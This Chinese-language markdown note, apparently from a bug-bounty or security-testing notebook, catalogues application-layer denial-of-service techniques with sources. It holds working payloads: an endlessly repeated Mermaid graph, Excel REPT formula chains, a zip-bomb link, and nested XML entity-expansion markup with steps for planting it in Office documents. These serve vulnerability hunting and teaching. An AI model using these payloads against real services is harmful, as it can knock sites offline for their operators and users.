

## 文件名 DoS

上传文件时, 文件名没有长度限制导致 DoS;

某些情况下上传处可能无法直接 DoS, 但是在 API 读取文件名时可能产生 DoS

---

References

- [profile-picture name parameter with large value lead to DoS for other users and programs on the platform](https://hackerone.com/reports/764434)

## 时间查询 DoS

原本的查询范围是2020年1月1日到2024年1月1日,

可以抓包修改为1000年1月1日到9000年1月1日,造成 DoS.

## Image DoS

图片参数大小可控,导致DoS

```
图片 API 为类似的 URL 时
http://example.com/demo.php/?img=coca-cola.jpg
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应字节和时间是否变化
http://example.com/demo.php/?img=coca-cola.jpg&width=100&height=100
有时需要自己构造参数
&l=00
&w=100&h=100
&w=100&h=100&l=100
&length=100
&width=100&height=100
&width=100&height=100&length=100
(length往往代表图片验证码生成的字符数量)
&size=100
&margin=100
```

---

References

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)

## Markdown DoS

当使用 Markdown 渲染大量数据的 Mermaid 图表时会导致 DoS

````
```mermaid
graph LR
A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;

......

```
````



---

- [Uncontrolled Resource Consumption in any Markdown field using Mermaid](https://hackerone.com/reports/670572)

## 文件解析 DoS

通过使目标解析文件造成 DoS.

### 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

### 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

### 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用;

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

References

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)

---

References

- [dos攻击漏洞思路小结](https://xz.aliyun.com/news/14695)